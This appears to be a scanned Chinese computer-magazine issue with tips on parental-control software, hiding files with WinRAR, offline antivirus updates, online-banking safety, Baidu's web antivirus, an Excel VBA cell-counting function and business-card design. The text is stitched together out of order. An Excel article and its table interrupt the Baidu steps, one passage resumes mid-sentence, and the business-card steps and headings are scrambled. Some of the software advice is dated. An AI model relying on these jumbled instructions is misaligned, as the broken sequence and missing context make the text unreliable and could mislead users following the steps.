在这个网络信息飞速传播的年代，已不再是“孟母三迁”就可以解决孩子的教育环境所存在的问题，长时间沉迷于网络游戏和通过网络传播的不良信息都不利于孩子身心健康的发展。当然，解决办法是伴随着问题产生的，在这里我们将介绍一种切实可行的办法，你可以在电脑上安装“绿色上网管家”这个免费软件，这样这位“好管家”就可以无形之中在网络上为你的孩子营造出一个好的学习娱乐环境，有利于孩子的身心发展。这款浏览过滤软件设计科学，功能全面，拦截有效，真的是解决孩子上网存在问题的好帮手。 下载地址：http://www.newhua.com/soft/59809.htm。

## 一、把管家请进电脑——软件的安装

- 安装。进入安装向导后用鼠标单击“下一步”，进入设定管理密码页面。
- 填入管理密码、确认密码。“取回密码问题”可单击问题右侧的向下箭头符号，根据自己的意愿来决定问题以及答案。
- 单击“完成”，运行绿色管家。
- 鼠标右键单击桌面右下角绿色管家标志，切换到管理状态，将会弹出管理员登录界面，输入安装时设定的密码，单击“登录”。
- 进入管理中心，单击页面左侧菜单“常规”，在右边显示的常规里根据自己需要用左键进行勾选，然后“确定”。

## 二、对管家的“安排”——软件的设置与管理

### 1. 让孩子远离不良信息——黄色过滤

进入管理中心后，单击右边菜单栏里“黄色过滤”，“编辑黑名单”可以编辑输入不愿意让孩子看到的不健康网站网址，勾选“禁止访问黑名单网站”。勾选“自动过滤黄色网站”后根据自己的要求调节过滤程度，再按“确定”（如图）。



右键单击左侧菜单中“黑名单”可以编辑禁止访问的网站。“白名单”——由此类推“白名单”可以输入允许浏览的网站。 如果想要记录下电脑运行期间绿色管家所拦截的网站，就用左键勾选“记录被拦截网址”一栏，如果拦截的网站需要清理，可以单击“清除所有记录”按钮，然后“确定”。记得设置完成后，都要选择“确定”。

### 2. 玩游戏要有选择——游戏限制

这里可以勾选要限制使用的游戏，假如你想要禁止的游戏没有显示在面板上的话，那么你还可以单击左侧菜单栏里面的“自定义”进行设置。 游戏时间限制设置允许玩游戏的时间，但必须要同时设置禁止玩的游戏软件。单击“游戏时间限制”显示面板，时间可以在面板的时间表上用鼠标点选，然后点“确定”。我们还可以发现这里的“游戏时间限制”与后面“时间限制”里的“游戏时间限制”设置是一样的。

### 3. 聊天软件要挑选——聊天限制

聊天时间限制设定允许聊天的时间，但是你也必须设置要禁止聊天的程序。我们还可以发现这里的“聊天时间限制”与后面“时间限制”里的“聊天时间限制”是同一个设置。

一切都设置好之后，用鼠标右键单击电脑右下方绿色上网管家的标志，弹出一竖排菜单，再用左键选择第一个“开始监控”就可以了。关于“在线升级”、“卸载”、“结束程序”等程序也可以在右键单击电脑右下角绿色上网管家标志弹出的菜单里进行。

### 4. 下载方式要控制——BT限制

可以勾选设置限制使用的BT软件（BitTorrent简称BT，俗称BT下载、变态下载，是一个多点下载的源码公开的P2P软件）。如果面板列举的BT软件没有你想要选择的，你可以到“自定义”功能里面进行设置。

### 5. 时间限制

“时间限制”里面有“聊天时间限制”和“游戏时间限制”两个设置栏目，可根据自身需要进行时间上的设置。设置后需要勾选“启动上网时间限制”，“确定”后方可生效。

### 6. 自定义

“自定义”里面有“过滤关键字”和“添加禁止运行程序”以供设置，当开启的网页包含自定义的关键字的时候，网页就会被限制访问，在重启后生效。当上述有些设置面板显示没有你要设置的软件时，也可以在这里的“添加禁止运行程序”里进行设置。

### 7. 健康设置

“健康设置”里面有视力保护功能可以开启，勾选“启用视力保护功能后”就可以进行每隔多久将电脑锁住几分钟的设置，然后“确定”，避免过度使用电脑中电脑辐射对孩子视力的侵害。

### 8. 记录

“记录”在这里可以记录网址和屏幕，可以设置网址记录和屏幕记录的保存时间以及在保存的这段时间内的历史记录，可以按照一定的时间间隔进行屏幕截图。可以方便地查看本机的正常上网记录和违禁上网记录。

### 9. 密码设置

“密码设置”用于修改密码和利用安装时设置的密码取回问答来取回密码。

### 10. 安全设置

# 巧妙隐藏 你的机密文件

每个人都有一些不想让别人知道的隐私，体现在电脑上就是有一些文件夹里的内容不想让别人看到，我们以前用的最平常的方法是将这个文件夹的属性改成“隐藏”，再在工具栏里选择“不显示隐藏文件夹”，但这种方法已经被大家所熟知，也就起不到真正隐藏文件的目的了。那么有没有更好的办法呢？下面就为大家介绍一种简便实用的方法，能够巧妙隐藏你的机密文件，让陌生人远离你的隐私。

这种方法要用到WinRAR压缩软件，原理就是将机密文件隐藏到回收站，然后再加密，这也是其他一些加密软件的加密原理。隐藏到回收站的好处是一般人都认为回收站是存放“垃圾”的地方，不会轻易去单击，即使打开了，隐藏其中的机密文件也无法被看到。此外清空回收站时你的机密文件不会被一起清除掉，所以也不必担心。采用这种方法保密程度高，查看方便，而操作也非常简单，按照以下方法操作，相信你会很快掌握方法的。

- 第一步：启动WinRAR软件，选择C盘（如图），单击Recycled选项，进入回收站文件夹。
- 第二步：单击上方工具栏左边的“添加”按钮，打开“压缩文件名和参数”对话框，选择“文件”选项卡，单击“追加”按钮，添加需要隐藏的机密文件。
- 第三步：在上方选择“高级”选项，单击“设置密码”，在弹出的对话框内，在“加密文件名”复选框上打对号，输入一个解压密码，最后单击“确定”，你的机密文件就已经打包隐藏在回收站里了。
- 第四步：最后将源文件删除掉。



的机密文件呢？即使有人利用WinRAR在回收站里发现了你的机密文件，但由于文件名已经加密，还是无法打开压缩包。如果自己想查看的话，只需启动WinRAR后进入C盘回收站，找到机密文件压缩包，然后解压缩释放机密文件到指定的文件夹即可查看。

# 离线安装卡巴斯基的病毒库更新

对于防病毒软件的选择，很多朋友都会安装著名的卡巴斯基个人版本，假如你由于某些原因无法完成自动更新，那么可以下载最新的反病毒数据库更新后手动安装，注意这里还是有些讲究的。

## 讲究一：选准下载源

打开IE浏览器，访问http://www.kaspersky.com.cn/KL-Downloads/AVDatabaseUpdates.htm，下载时请同时选择“每日更新”和“完整更新”，或者也可以访问英文页面的http://www.kaspersky.com/avupdates/，这里同时提供了5.0、6.0、7.0三种不同版本的病毒库更新，我们需要下载av-i386-cumul.zip和av-i386-daily.zip两个文件，下载回来后分别解压缩，前者解压缩后会获得35个文件，而后者则高达362个文件，毕竟是完整更新嘛。

## 讲究二：添加更新源有次序

右击系统托盘区的程序图标，选择“设置”打开卡巴斯基反病毒的设置窗口，切换到“更新”页面，单击右侧的“配置”按钮，此时会打开“更新设置”对话框，单击“添加”按钮，选择事先已完成解压的本地更新文件，注意应该首先选择“完整更新”，然后再选择“每日更新”，顺序不能搞错，确认后即可将其添加进来。
返回“更新设置”对话框，在这里取消“卡巴斯基实验室更新服务器”前面的选中状态，然后单击底部的“确定”按钮，现在我们就可以通过“更新”开始离线更新包的手动更新工作（见图），由于离线病毒库更新包的版本日期一般都会相对滞后，因此在网络通畅后，建议还是需要通过“卡巴斯基实验室更新服务器”完成更新。



# 谨防看不见的黑手
——安全使用网络银行

“网银大盗”、“网络钓鱼”、诈骗海啸捐款……一系列与网上银行安全相关的事件层出不穷。据央行统计，我国目前已有20多家银行的200多个分支机构拥有网址、主页，其中开展实质性网上银行业务的分支机构达50余家，企业、个人客户超过1000万户，每年超过千亿元资金在网上流通。在上海地区，各行网银用户月均以两位数的百分比激增。以前，在银行才能办的转账、汇款、购物、代缴费等，现在坐在家里，轻点鼠标就能办妥，这是网上银行的优势。然而在优势的背后，却是一个看不见的黑手，因此如何确保网络银行安全成了所有网银用户亟待解决的问题。

◆文/阿亮

## 一、杜绝恶意程序：必不可少的防火墙

### 网络银行：到底安全不安全

基于网上银行的美好前景，多数国内银行都愿意不惜血本地投资以解决安全问题——在网络技术领域的合作伙伴几乎都是世界上最好的IT公司，如微软、IBM等，但银行方面也承认，在网络的监管层面上，银行总有瓶颈存在。“有人在技术上走在银行的前面，或者掌握了网上银行的技术软肋，网上银行就不可避免地存在安全漏洞。”与传统银行业务相比，国内的银行在网上银行业务方面与外国银行巨头之间的差距要小得多。国内银行的网上银行业务功能更新很快，支付便捷程度越来越高，网上银行的信息安全措施日益健全。通过使用数字证书与电子签名可以保证广大网民放心、安全地使用网上银行。因此，只要大家做好一些安全防护工作，那么网络银行完全可以放心使用。

在Internet上，每个上网用户都可能受到不速之客的攻击和陷害。那些嵌在网页中的恶意ActiveX动态控件，或者是Javascript的程序都可能使你的磁盘文件或者操作系统受到致命的打击，而那些特洛伊木马程序则会在用户毫不察觉的情况下在其计算机中偷偷安家，从而使得整个计算机系统都受制于幕后的黑手。

Internet通信是通过独立数据包的交换来完成的，每一个在Internet上传送的包，都必须含有源地址和目标地址。而防火墙的目的就是使用一段“代码墙”把你的电脑和Internet分隔开。它检查到达防火墙两端的所有数据包，无论是进入还是发出，从而决定该拦截这个包还是将其放行。因为防火墙检查每个到达你电脑的数据包，所以在这个数据包被你机上运行的任何软件看到之前，防火墙有完全的否决权，可以禁止你的电脑接收Internet上的任何东西。

毫无疑问，做到拦截数据包并不困难，但是我们需要的是准确的拦截而不是频繁的误报。如果防火墙软件做不到这一点，那么它几乎就没有任何实用价值。在这方面，大名鼎鼎的Norton有着相当出众的技术，而它们推出的Norton Personal Firewall经过多次升级改进之后也日趋完美，效果完全超过了同类产品。

在Norton Personal Firewall的主界面点击“Personal Firewall”，然后选择“Config”，如图1，设置防火墙的安全级别。



此时我们就可以通过“Custom Level”对防火墙的级别进行设定。我们可以对三种情况进行监控，分别是Personal Firewall、Java Applet Security和ActiveX Control Security。一般而言，Personal Firewall一定要设置成“High”警戒度，这是相当重要的。至于Java Applet Security和ActiveX Control Security，大家可以根据自己的Internet使用状况来设定，如果一般只能浏览简单的资料查询网站，那么可以设为Medium，让每次执行时都经过你的确认，防止恶意代码在不知不觉的状态下破坏你的系统。

> 小贴士：
使用防火墙拦截危险程序
一般而言，用户的Internet程序相当固定，浏览、QQ、下载软件等，每当任何一个应用程序请求Internet连接时，Norton Personal Firewall作为防火墙都会让用户认可一下。如图，当我们启动QQ时，Norton Personal Firewall立即拦截，并询问是否通过。当然QQ程序是安全的，我们自然选择“Permit”，并且选中下方的“Always use this action”，这样Norton Personal Firewall就不会再次拦截QQ程序。如果用户需要修改设定，我们也可以通过点击“Personal Firewall”→“Config”→“Program Control”选项卡来更改所有的程序拦截设定。当然，其它软件甚至Windows XP SP2也都具备防火墙功能，大家可以有针对性地选用一款。如图2，拦截程序可以确保安全。



## 二、最容易忽视的环节：反钓鱼

从理论上来说，只要杜绝那些未知的木马程序，切断其与Internet的连接，那么几乎就没有任何可以让网银用户遭受损失的方法。而事实上，目前大多数已发生的网银失窃案都是一些违法人员模仿银行的官方网站，以此来骗取密码，这才是最可怕的事情，目前在国际上被称为“钓鱼”。

钓鱼正以一种新的犯罪形式在不断侵犯普通网民的合法利益，具体表现在伪装“网络银行”窃取用户的银行卡卡号和密码，转走用户在银行的存款。不过，这类伎俩一般都非常粗劣，只要大家熟悉银行的官方网站，那么就很容易进行识别。但是令问题更加复杂的是，有些钓鱼网站并非直接模仿银行官方网站，而是制作一些类似在线购物的弹出窗口，再链接到相关登录界面，这就给识别带来很大的困难。

对于上网经验并不丰富的网友而言，建议大家使用最新的IE 7.0浏览器。随着Windows Vista系统的推出，IE7.0也被揭开了面纱，其中反钓鱼功能就是最大的改进之一。打开IE 7.0浏览器后，再单击菜单“Tools->Phishing Filter”，在弹出的下拉菜单中，我们可以选择“Turn On Automatic Checking”，这样就可以打开反钓鱼功能。在启用反钓鱼功能后，我们在浏览网页时，IE状态栏上将会有一个蓝色的小盾牌样式的图标。如果是钓鱼网站，IE将会给出警告。

假如大家还不习惯尚未推出正式版的IE 7.0，那么可以安装“3721上网助手”，这款工具软件也有反钓鱼功能。安装好之后，在“安全防护”标签中选中“启用上网助手反钓鱼功能”选项，然后再全部勾选下面的三项设置，最后单击“立即设置”按钮即可。有了上面的设置后，当你在IE浏览器中打开任何一个网页时，在IE状态栏中将会显示一个绿色、黄色或是红色的圆图标。如果当前打开的网站是正常网站，这个图标就显示为绿色；如果是钓鱼网站，则显示为红色；如果是未经确认的，则显示为黄色，那么在试图输入银行账号及密码时要格外小心。图3，使用“3721上网助手”的反钓鱼功能。



### 小贴士：
网络使用中需要注意的细节

- 1. 不要轻易点击通过聊天软件发过来的陌生人消息中的网站链接，即使是比较熟悉的朋友，也须先问清楚再点击。
- 2. 不要轻易接收网友发送给你的扩展名为“.exe”、“.com”、“.bat”的可执行文件，对于熟悉的朋友，也须先问清楚再接收。
- 3. 对于一些陌生人发过来的邮件不要轻易地打开，最好使用纯文本方式打开各种邮件，避免使用HTML方式打开邮件，这样容易感染病毒。
- 4. 在系统中安装一个口碑比较好的杀毒软件和病毒防火墙，并且定期对病毒库进行升级，以防止最新的病毒不能查出。
- 5. 在公共计算机上避免使用网上银行，以防止账号信息泄露。

## 三、配合银行的保密功能

对于网络安全，银行方面自然也非常重视，因此普遍推出了证书文件，这是非常有效的方式，大家可以充分利用。事实上，证书文件相当于网络上的“虚拟银行卡”，因此只有卡号和密码，而没有证书文件的话，一样无法进行非法活动。

证书文件是需要大家好好保管的，因此必须为证书文件设置强大的密码，而且绝对不能直接将其保存在硬盘上。理想的做法应该是在导入证书文件之后，将其使用WinRAR压缩，并设置一个密码。在这种情况下，非法侵入者几乎是无能为力的，因为WinRAR的加密功能已经非常强大，再加上证书本身密码的双重保护，完全可以抵挡任何非法攻击。如图4，证书的加密功能也要利用好。



当然，证书文件由于目标明确还是存在一定的危险性，因此对于安全性要求较高的用户，可以考虑“硬件证书”。为了保护数字证书的安全存放，工行、深发展等银行使用了USBKey电子钥匙作为证书存储介质，从而避免因计算机受到病毒的侵害而导致证书的失效。USBKey网上银行证书通过硬件加密的方式验证客户的身份，客户有关信息一经下载到USBKey客户证书内，即具有唯一性和不可复制性，网上所有涉及账户资金的对外转移都必须事先通过USBKey客户证书进行唯一认证。USBKey网上银行证书相当于一个U盘，支付的时候插入计算机接口，这样即使不小心丢失了账号、密码，也没有关系，没有这个证书是无法实现网上支付的。图5，安全度更好的USBKey。



### 小贴士：
什么样的密码强度较高

很多用户为了图方便，喜欢将自己的生日作为密码，殊不知这样的密码利用穷举法可以很快地破解。同样，如果采用一些英文单词作为密码，那么其可靠度也非常有限，随便找一个密码词典就可以击破。为此，建议大家密码一定要英文字母结合数字，并且必须是没有实际意义的字符串，而且位数在6位以上，这样就不会出现被穷举法击破的尴尬。

# 让杀毒从此更简单
——体验“百度安全中心”

◆文/TMG wangwei

笔者现在向你介绍的是一款无须在电脑上安装任何杀毒软件，只需点进一个网页就可即时拥有所有杀毒软件功能的网页版杀毒工具——百度安全中心。

这是百度为了方便广大网友所推出的一项全新产品，它让网友们随时随地都可以方便轻松地维护自己的电脑系统。百度安全中心的地址是：http://an.baidu.com/。当你进入这个网站，你就会拥有一种进入了杀毒软件主界面的感觉。



通过百度安全中心的主界面我们可以看出百度安全中心所具有的杀毒功能和金山毒霸所具有的各种功能有很大的相似性。当然！因为这是由金山毒霸为百度所提供的技术支持。它将金山清理软件和金山毒霸的所有功能结合起来植入了该网页。你只要进入了百度安全中心的这个网页就可像使用金山毒霸一样，根据自己的需要对你的电脑系统进行维护。



也可以根据以上介绍来试试你的电脑能得多少分。

Step1: 使用网页界面上的“立即免费检测”功能，即可对你的电脑进行免费检测，并对你当前系统状态用分数形式给予评价和建议。
单击该“立即免费检测”按钮后会跳出“安装安全控件”的提示，根据该提示对控件进行安装，安装成功后该软件就开始为你的电脑系统进行全面检测了。
这个免费检测功能主要针对你系统上所安装的本地杀毒软件、系统漏洞、浏览器、开机启动项、磁盘空间、恶意软件和插件等方面进行检测，并综合所检测出的问题打出分数。笔者的电脑分数为66分，收到了“黄色警报”，看来需要立即修复。

Step2: 修复的选择有两种，你既可以单击界面上的“一键修复”按钮让它自动帮你修复；也可单击已发现问题的检测项后的“查看与修复”按钮针对单个问题进行修复。让我们单击“扫描软件安全更新和系统漏洞”检测项后面的“查看与修复”按钮，来试着修复软件和系统问题。
一键修复会自动为你修复所检测到的不安全项，整个过程均为自动过程，无须你来亲自干预。
单击“扫描软件安全更新和系统漏洞”检测项后面的“查看与修复”按钮就会进入软件和系统的自动修复程序。

Step3: 单击百度安全中心的“在线杀毒”按钮即可为你的电脑进行在线杀毒。
可以看到，在线杀毒这一功能并不是在任何时间都是免费的，它的免费使用时间为晚上12点到早上9点，上午11点到下午7点和晚上11点到12点。百度采用这个策略是为了防止与金山毒霸收费性的在线杀毒功能冲突。虽然这样，但是我们已经有了那么多的免费时间，使用起来已经绰绰有余了。
首次使用“在线杀毒”功能时还需等待下载文件以便拥有最新的病毒库。文件下载完成后就直接进入在线杀毒程序了。我们可以看到“综合检测”、“恶意软件”、“漏洞检测”和“病毒检测”几个标签，你可以根据自己的需要选择不同的标签分别杀毒以便节约时间。

Step4: 单击右边菜单栏中的“最新专杀工具”按钮，界面上会出现很多针对最新出现的各种新病毒而专门制作的专杀软件。如机器狗/磁碟机/AV终结者专杀工具、[新]金山AUTO木马群专杀工具、“MSN”机器人专杀工具等。
单击这些病毒专杀工具下方的免费下载按钮，将这些专杀工具免费下载下来，我们就可以针对这些顽固的病毒进行专门查杀。

相信很多朋友都会使用Excel格式对数据进行处理和分析，有些时候为了统计某些特定对象，我们通常会设置比较显眼的背景颜色，这里被设置为紫色，目的主要是为了与其他的单元格进行区别。

不过，该如何快速统计出这些有背景颜色的单元格数量呢？很显然，手工统计并不是一个好办法，这里以Excel 2007为例，介绍两种不同的统计办法：

## 1. 利用VBA代码

按下“Alt+F11”组合键，打开Microsoft Visual Basic窗口，从插入菜单下选择“模块”，然后将下列代码粘贴到右侧的文本框中，同时不要忘记单击工具栏上的保存按钮：

```
Function colorcount(y As Range, rng)
Application.Volatile
Dim c As Double
Dim x As Range
For Each x In rng
    If x.Interior.ColorIndex = y.Interior.ColorIndex Then
        c = 1
    Else
        c = 0
    End If
    colorcount = colorcount + c
Next x
End Function
```

现在，我们就可以返回工作表窗口，在任一单元格中手工输入“=colorcount(C2,C1:O10)”，这里的“colorcount”函数主要是用来完成统计工作，C2是背景色为紫色的某一单元格，当然你也可以选择其他的单元格，而“C1:O10”则是表示单元格的区域，确认后即可统计出具有同一背景色的单元格数量(见图)。

## 2. 利用“查找和替换”

上面的方法毕竟还是稍麻烦了一些，如果工作表的背景色并非混合色，那么我们也可以利用“查找和替换”来获得具有统一背景色的单元格数量。

首先选中相关的单元格区域，这里当然是“C1:O10”，

## 妙法统计有背景颜色的单元格数量

◇文/王志军

然后按下“Ctrl+F”组合键，此时会弹出“查找和替换”对话框，单击右下角的“选项”按钮，将光标定位到“查找内容”的文本框中，单击右侧的“格式”按钮，从下拉菜单中选择“从单元格选择格式”，然后我们会看到一个取色按钮，单击工作表中具有紫色背景色的任一单元格，确认后返回“查找和替换”对话框。

单击“全部查找”按钮，很快我们就可以看到相关的数量，够简单的吧？这里需要说明的是，无论是Excel 2003或是Excel 2007，利用“查找和替换”的操作方法都是一样的。

总的来说，两种方法各有千秋，利用“查找和替换”进行操作，这种方法相对简单；利用VBA代码虽然复杂了些，但更有利于数据的实时更新，感兴趣的朋友不妨一试。

| C12 |    |    |    |    |    |    |    |    |    |    |    | =colorcount(C2,C1:O10) |
| :-- | :- | :- | :- | :- | :- | :- | :- | :- | :- | :- | :- | :--------------------- |
| C   | D  | E  | F  | G  | H  | I  | J  | K  | L  | M  | N  | O                      |
| 1   | 3  | 4  | 5  | 6  | 7  | 8  | 9  | 10 | 11 | 12 | 13 | 14                     |
| 2   | 18 | 19 | 20 | 21 | 22 | 23 | 24 | 25 | 26 | 27 | 28 | 29                     |
| 3   | 33 | 34 | 35 | 36 | 37 | 38 | 39 | 40 | 41 | 42 | 43 | 44                     |
| 4   | 48 | 49 | 50 | 51 | 52 | 53 | 54 | 55 | 56 | 57 | 58 | 59                     |
| 5   | 63 | 64 | 65 | 66 | 67 | 68 | 69 | 70 | 71 | 72 | 73 | 74                     |
| 6   | 78 | 79 | 80 | 81 | 82 | 83 | 84 | 85 | 86 | 87 | 88 | 89                     |
| 7   | 93 | 94 | 95 | 96 | 97 | 98 | 99 | 100 | 101 | 102 | 103 | 104                    |
| 8   | 108 | 109 | 110 | 111 | 112 | 113 | 114 | 115 | 116 | 117 | 118 | 119                    |
| 9   |    |    |    |    |    |    |    |    |    |    |    |                        |
| 10  |    |    |    |    |    |    |    |    |    |    |    |                        |
| 11  |    |    |    |    |    |    |    |    |    |    |    |                        |
| 12  | 37 |    |    |    |    |    |    |    |    |    |    |                        |
| 13  |    |    |    |    |    |    |    |    |    |    |    |                        |

Step5: 单击“系统修复和优化”菜单中的“历史痕迹清理”菜单项清理你使用过系统的历史痕迹，优化你的电脑系统。

历史清理设置了多种清理模式，如“默认清理”、“全面清理”、“网页冲浪爱好者”、“影音视频爱好者”、“网络下载爱好者”、“办公软件使用者”、“自定义清理项”等，你可根据实际情况选择适合自己的模式。

Step6: 单击“系统修复和优化”菜单中“浏览器修复”菜单项，勾中提示有风险项前的复选框，单击界面下方的“禁用选中项”按钮可禁用这些威胁系统安全的浏览器问题。

Step7: 单击“系统修复和优化”菜单中“启动项管理”按钮对你系统启动项进行管理。

从启动项管理主界面我们可以看到百度安全中心已经对你系统的启动项进行了检测和安全评估，并根据你电脑系统项的状态给予“推荐操作”的建议。你可以根据它所提供的建议启用或禁用不同的启动项。

Step8: 单击“实时防御”菜单上的“网页防挂马”菜单项开启网页防挂马功能，保护你的浏览器，防止你在浏览网页时感染木马。

Step9: 单击“实时防御”菜单上的“U盘病毒免疫工具”菜单项开启U盘病毒免疫功能。勾中各功能前的复选框，单击“启用选中项”按钮或“禁用选中项”按钮可以启用或禁用不同功能。

## 从欣赏到制作：名片DIY实用指南

◆文/风之扬

在展示个人形象的过程中，名片就是方寸艺术。一张设计精美的名片，即使是交往不深的客户往往也乐于保存，甚至会带来意想不到的商机。不过，与一般的平面设计不同，名片只有小小的设计空间，要想在这个面积内充分发挥创意，难度可想而知。因此，名片设计必须从实际功能出发，做到艺术风格独特新颖，文字简明扼要，字体层次分明。在本专题中，通过名片设计技巧和设计软件的有效结合，由浅入深，让大家拥有属于自己的“个性化名片”。

### 第1步：个性化名片实用技巧

总体来看，名片设计过程包括：选择名片适用的纸张；决定名片设计的尺寸和形状；确立图案或公司标志的位置；符合单位整体形象的图案设计；预留人名和职称空间；标示与信封、信纸的同样色彩与字体；提出多种设计式样等。同时，要突出三个基本原则：简、准、易。其中，“简”表示名片传递的主要信息要简明清楚，构图完整明确；“准”表示要注意质量、功效，尽可能使传递的信息准确；“易”表示便于记忆、识别。

### 1. 简单型DIY：用Word也可以设计名片

设计名片的方法数不胜数，这里介绍最简单的一种，就是使用随处可见的Microsoft Word来制作名片。

- 第1步：设置页面参数
- 第2步：利用艺术型边框美化名片
- 第3步：添加名片内容并添加图片修饰

在Word中，还有一种更加方便而实用的名片设计方法。打开Word 2003，点击“文件”菜单中的“新建”项，在软件界面右侧的任务窗格中点击“Office Online模板”。在弹出的浏览器中，会出现微软公司提供的名片模板，选择一款适合自己的样式，再在弹出的新页面中点击“立即下载”，网站上的名片模板就会下载并载入到Word中去，一个页面中排列了八个名片。这可以大大减轻排版工作量，打印时，只要对Word中的名片模板进行修改，然后点击“文件”菜单中的“打印预览”，对即将打印的名片进行预览，确认无误后点击打印按钮即可。

### 2. 实用型DIY：巧用名片网站“按部就班”

现在，登录“点雅”网站，不用专业制作软件，不用绞尽脑汁创意，也可以“按部就班”轻松设计精美名片。“点雅”网站的地址为：http://www.deyey.com，该网站提供了免费的在线名片设计工具及丰富的制作素材。登录网站后，点击“开始设计”按钮，注册一个用户名并登录即可进入制作界面。

一个纯颜色的背景，双击选择右侧“颜色”区域的颜色即可；如果需要选择一个图案作为背景，双击选择右侧“背景”区域的图片即可。在背景区域，提供了多种多样的背景图案，用户可以根据需要拖拉状态条进行选择。如图2所示。

如果有合适的背景图片，也可通过“加入图片”按钮上传使用。点击“加入图片”按钮打开“图片浏览器”对话框，选择界面下方的“浏览”按钮，找到并打开相应的图片开始上传。然后，双击图片缩略图即可添加到操作区中，在设计过程中，可根据需要任意移动、旋转和缩放图片，调整到合适大小和位置。设置好名片的一面之后，在右上角点击“正面”或“背面”按钮即可设置另一面的背景，使用十分方便。如图3所示。

## 第2步：加入标志

点击网页中“步骤二”后面的“加入标志”按钮，在这里可以给名片添加标志图案，如公司Logo或头像照片等。在“选择标志”栏中点击下拉三角可以看到网站提供的标志、基本形状、大自然和刺花图案四种类型的素材。或者点击“加入图片”按钮上传已有的标志图片等。加入标志图片后，将该图片调整到合适的大小和位置即可。

## 第3步：加入文字信息

点击“加入文字”按钮，可以在名片上添加文字信息。添加姓名时，先在“编辑文字”框中输入名字，根据需要调整“字体大小”数值，在“选择字体”框中选择合适的字体，下方还有加粗、下划线和倾斜等工具。最后点击“加入文字”按钮即可将名字添加到名片上，再用鼠标拖放到合适位置。如图4所示。

> 名片构成的要素。名片要素主要包括标志、图案、文案等。对于不同的构成要素，需要在设计中各就其位，依据其类型确定其设计重点。一般来说，名片的构成要素主要有：
（1）属于造型的构成要素。例如，用图案或文字造型设计并注册的商标或企业标志、形成名片特有的色块构成、几何边框等。
（2）属于方案的构成要素。例如，名片持有人的姓名及职务、名片持有人的单位及地址、通讯方式、业务领域等。
（3）名片内容构成形状。比较典型的有：长方形构图、椭圆形构图、半圆形构图、左右对分形构图、斜置形构图、三角形构图、轴线形等。
（4）文案。名片只有方寸设计空间，文案信息应尽量简洁有效。

用途，网站提供了三种下载链接，分别是“细图”、“大图RGB”和“大图CMYK”，前两种适合网络使用，最后一种适合名片打印，根据需要单击即可下载到本地保存。需要查看以前制作的名片时，只要在网站首页点击“我的账户”按钮，在“我的卡片”栏中即可查看所有的名片。

除了上述站点，用户还可以通过Zoolit等站点设计名片。网站地址为：http://www.zoolit.com。Zoolit提供了简易的免费个人网络名片服务，用户把个人联系信息、网站地址等参数输入进去，即可自动生成一张网络名片。使用时，把生成的代码放到博客或网站上就可以了。

## 第4步：保存与下载名片

点击“传档及下载/传档”选项卡，填好文件信息，再点击“传档”按钮即可将名片保存在网站上。根据不同的

### 3. 个性化DIY：巧用“方寸天地”设计名片

个性化名片包含了“趣味化”、“个人化”、“活泼化”等特征，它强调在名片造型、图案设计以及信息展现等方面更有创意。在越来越强调自我推销的现代社会，富有特色的个人名片将是未来的流行趋势。不过，在天马行空的个性化设计中，还必须遵循一定的规则，在重点突出主题的基础上，善于构造均衡美、对称美，达到整体调和与统一。如，字体的形象特征调和、色彩的统一、排版方向的统一等。

> 在名片设计中，“黄金比例”是常用的等比分割设计，具有理性数据比例的视觉美感，通常为：1:1.618、3:5、5:8、8:13、12:21、55:89。在中国的绘画理论中，还有“疏能跑马；密不透风”的绘画原则，它形象地阐明了空间的对比关系。通过这些方法的运用，构成要素与名片底的空间对比，使之有聚有散，从而提高名片的设计水平。

作软件很多，各个软件的功能也参差不齐，常用的名片制作软件包括：方寸天地彩色名片制作系统，名片制作专家，专业名片、卡片、胸牌制作系统Card Maker，名片编辑专家等。下面，以“方寸天地彩色名片制作系统”为例。这是一款老牌而实用的专业名片设计系统，不仅适用于名片设计，还适用于各种证件、卡片的制作。软件下载地址：http://cardpro.chgan.com或http://www.newhua.com/soft/10826.htm。软件采用“所见即所得”的交互式设计方式，界面简单而实用，轻松几步即可完成制作。

## 第1步：选择设计模板

打开并进入软件界面，左边是名片中的设计元素，包含了常见图形和相关元素，使用时直接拖入编辑界面即可。模板功能是系统的一项重要的功能，它为用户提供了300多种常用名片的样式，可以直接套用，大大地方便了名片的制作。用户也可以将排版样式存储为模版，以便以后套用。需要使用模版文件时，单击“文件”菜单下的“调入模版”选项。在弹出的“选择模版”对话框中，选择模版的目录和模版文件，选择好文件后按“确认选择”即可。如图5所示。

## 第2步：名片信息编辑

软件支持横式、直式不同的名片类型。在图形设计方面，包括直线、矩形（方形）、椭圆（正圆）、圆方等，同时可以对图形区域进行色彩填充、图案填充等。在图像排版方面，包括：对象层次的移动、对象区域撑满名片区域、对象位置靠近名片边界等。在名片编辑过程中，素雅、大气且具有个性的字体往往会给名片设计带来意想不到的效果。如图6所示。

- 【设计要点】
运用字体时，注意以下技巧：
(1) 选用粗大的字体，摆放时尽量斜一些，尽量拉大字号，让字体部分不超出边心。
(2) 在古色古香的底纹中，适当运用书法字体，会给人一种具有文化气息的感觉。
(3) 通过行云流水般的字体配上弧形线条，可以给人一种舒展的印象。

## 第3步：胸卡、工作证等特殊名片的制作

胸卡、工作证可以说是名片的一种特殊形式。制作胸卡、工作证时，某个文字对象（如姓名）要求每张都不一样，而其他项基本不变。在这种情况下，可以使用“方寸天地”的数据组功能。在右侧的文字面板中，勾选“包含数据组”，即可激活“设置数据组”按钮。在弹出的对话框中，只要设置这个文字项的一组数据，系统打印时将按顺序自动替换原来的文字。如果一张证卡中有几个文字对象包含数据组，可以包含同样数量的数据组，否则系统按数据组最少的一项匹配，多余的项不被打印。

## 第4步：打印保存

打印应该是名片生成的一个重要环节了。“方寸天地”支持全色打印、CMYK分色打印、专色分色打印等方式，可生成专业水准的分色版，适合于包含彩色图形、图案的名片的制作；对各种彩色分色版面均可进行打印前的预览。

### 【小知识】

名片打印方式的选择。常见的打印方式包括：全色打印、CMYK分色打印、专色分色打印等。全色打印会输出排版版面中的所有对象和颜色，可用于在彩色打印机上直接打印名片。CMYK分色打印将所有对象和颜色按青（C）、品红（M）、黄（Y）、黑（H）四种标准印刷色分色，然后分四个色版打印输出，这种分色方式主要用于支持包含彩色图像名片的胶印印刷。专色分色打印是将排版对象的每种不相同的颜色分成一种色版打印。假如排版版面中包含黑色、红色、绿色、品红色、大红色、蓝色等六种颜色，专色分色将按这六种颜色分为六个色版，相同颜色的内容在同一个色版，这种分色方式主要用于名片的胶印印刷。

